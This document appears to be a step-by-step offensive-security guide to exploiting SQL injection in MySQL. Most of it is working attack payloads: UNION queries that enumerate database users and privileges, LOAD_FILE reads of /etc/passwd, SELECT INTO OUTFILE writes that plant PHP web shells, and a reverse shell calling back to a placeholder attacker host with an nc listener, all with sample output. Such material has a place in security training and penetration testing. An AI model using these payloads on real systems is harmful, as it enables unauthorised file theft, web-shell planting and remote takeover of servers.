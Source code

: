 # ✍️ File Reading and Writing in MySQL

SQL injection vulnerabilities in `MySQL` databases can be exploited to read files, write files, and even escalate to Remote Code Execution (RCE) under the right conditions. This guide demonstrates how attackers can manipulate SQL queries to perform these actions.

### Reading Files with SQL Injection

To read files on a `MySQL` server, the database user needs to have the `FILE` privilege. This privilege allows the user to load files from the system into the database. Here’s how attackers can exploit this using SQL injection.

#### Step 1: Identify the Database User

Attackers often start by identifying the database user executing the SQL queries. Using SQL injection, the current user can be retrieved like this:

```sql
admin' UNION SELECT 1, user(), 3, 4-- -
```

In the terminal, the injection would look like this:

```bash
babel@target:/var/www$ curl http://target.com/page.php?id=1' UNION SELECT 1, user(), 3, 4-- -
```

Alternatively, attackers might check the `mysql.user` table to find other users:

```sql
admin' UNION SELECT 1, user, host, 4 FROM mysql.user-- -
```

This helps the attacker understand which users exist and where they are connecting from.

#### Step 2: Check User Privileges

Once the user is identified, the next step is to verify their privileges to determine if they can read files. This can be done by querying the `user_privileges` table:

```sql
admin' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

To see if the user has superuser privileges, the following query can be used:

```sql
admin' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user='target_user'-- -
```

If the result returns `'Y'`, the user has superuser privileges, and the attacker can attempt to read system files using the `LOAD_FILE()` function.

#### Step 3: Read Files Using `LOAD_FILE()`

With sufficient privileges, attackers can use the `LOAD_FILE()` function to read sensitive files. For example:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

In a SQL injection scenario, it could look like this:

```sql
admin' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```

In the terminal:

```bash
babel@target:/var/www$ curl http://target.com/page.php?id=1' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4-- -
```

If the database user has `FILE` privileges, the attacker can read sensitive system files such as `/etc/passwd` or web application configuration files like `config.php`.

#### Example Output:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

### Writing Files with SQL Injection

Writing files on the server via SQL injection requires specific conditions:

1. The user must have the `FILE` privilege.
2. The `secure_file_priv` variable must not restrict file writing.
3. The directory to which files are written must be writable by the MySQL process.

#### Step 1: Check `secure_file_priv`

The `secure_file_priv` setting controls where files can be read from or written to. To check this setting, the following query can be used:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

Using SQL injection, it can be done like this:

```sql
admin' UNION SELECT 1, @@secure_file_priv, 3, 4-- -
```

If the variable returns an empty value, it means there are no restrictions on where files can be written.

#### Step 2: Write Files Using `SELECT INTO OUTFILE`

With the correct privileges and no `secure_file_priv` restrictions, the attacker can use the `SELECT INTO OUTFILE` command to write files. For example, writing a simple PHP web shell:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

In a SQL injection:

```sql
admin' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>', 3, 4 INTO OUTFILE '/var/www/html/shell.php'-- -
```

#### Example PHP Web Shell

The attacker can then access the shell like this:

```html
http://target.com/shell.php?cmd=whoami
```

This would execute the `whoami` command and return the user under which the web server is running.

#### Step 3: Example of a Reverse Shell

An attacker could also inject a reverse shell, which would give them remote access to the system:

```sql
admin' UNION SELECT 1, '<?php exec("/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1"); ?>', 3, 4 INTO OUTFILE '/var/www/html/revshell.php'-- -
```

Then, they could set up a listener on their own machine:

```bash
babel@attacker:~$ nc -lvnp 4444
```

And execute the shell by accessing:

```html
http://target.com/revshell.php
```

#### Example Output:

Once the shell is triggered, the attacker's listener may show something like:

```bash
babel@attacker:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from target.com 192.168.1.100 received!
bash: no job control in this shell
bash-4.2$ whoami
www-data
```

### Obtaining Remote Code Execution (RCE)

An attacker can escalate a SQL injection into Remote Code Execution (RCE) if they can write executable scripts to the web directory. Writing a PHP web shell, as shown earlier, allows them to run commands directly on the server.

For example:

```sql
admin' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>', 3, 4 INTO OUTFILE '/var/www/html/webshell.php'-- -
```

Once written, the attacker can execute commands by passing them as parameters:

```html
http://target.com/webshell.php?cmd=id
```

#### Example Command Output:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
